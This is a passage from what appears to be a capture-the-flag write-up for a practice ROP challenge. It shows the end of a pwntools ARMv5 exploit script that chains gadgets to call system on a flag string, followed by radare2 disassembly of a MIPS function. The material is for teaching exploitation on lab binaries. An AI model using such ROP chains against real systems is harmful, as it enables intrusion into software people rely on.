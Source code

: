 ```python
payload += p32(pop_r4_r5_r6_r7_r8_sb_sl_pc)
payload += p32(0x4) # r4
payload += p32(0x5) # r5
payload += p32(0x6) # r6
payload += p32(flag_string) ## r7 then moved to r0
payload += p32(0x8) # r8
payload += p32(0x9) # sb
payload += p32(0xaa)# sl
payload += p32(mov_r0_r7_blx_r3) # pc so jump here and then into system

p = elf.process()
#p = gdb.debug('./split_armv5')


p.recv()
p.sendline(payload)
log.info(p.recvall())
```

# mipsel (32 bit) architecture
Here we can see from the disassebly of the usefulFunction the parameter are placed into reserved register by the calling convenction 
(all the aX registers), here the string is placed inside the a0 register.


```asm
[0x00400690]> pdf @ sym.usefulFunction 
┌ 84: sym.usefulFunction (int32_t arg1, int32_t arg_10h);
│           ; arg int32_t arg_10h @ fp+0x10
│           ; var int32_t var_10h @ sp+0x10
│           ; var int32_t var_18h @ sp+0x18
│           ; var int32_t var_1ch @ sp+0x1c
│           ; arg int32_t arg1 @ a0
│           0x004009c8      e0ffbd27       addiu sp, sp, -0x20
│           0x004009cc      1c00bfaf       sw ra, (var_1ch)
│           0x004009d0      1800beaf       sw fp, (var_18h)
│           0x004009d4      25f0a003       move fp, sp
│           0x004009d8      42001c3c       lui gp, 0x42                ; 'B'
│           0x004009dc      30909c27       addiu gp, gp, -0x6fd0
│           0x004009e0      1000bcaf       sw gp, (var_10h)
│           0x004009e4      4000023c       lui v0, 0x40                ; '@'
│           0x004009e8      880c4424       addiu a0, v0, 0xc88         ; 0x400c88 ; "/bin/ls" ; arg1 ; str._bin_ls
│           0x004009ec      5480828f       lw v0, -sym.imp.system(gp)  ; [0x411084:4]=0x400b70 sym.imp.system
│           0x004009f0      25c84000       move t9, v0
│           0x004009f4      09f82003       jalr t9
│           0x004009f8      00000000       nop
│           0x004009fc      1000dc8f       lw gp, (var_10h)
│           0x00400a00      00000000       nop
│           0x00400a04      25e8c003       move sp, fp
│           0x00400a08      1c00bf8f       lw ra, (var_1ch)
│           0x00400a0c      1800be8f       lw fp, (var_18h)
│           0x00400a10      2000bd27       addiu sp, sp, 0x20
│           0x00400a14      0800e003       jr ra
└           0x00400a18      00000000       nop
```
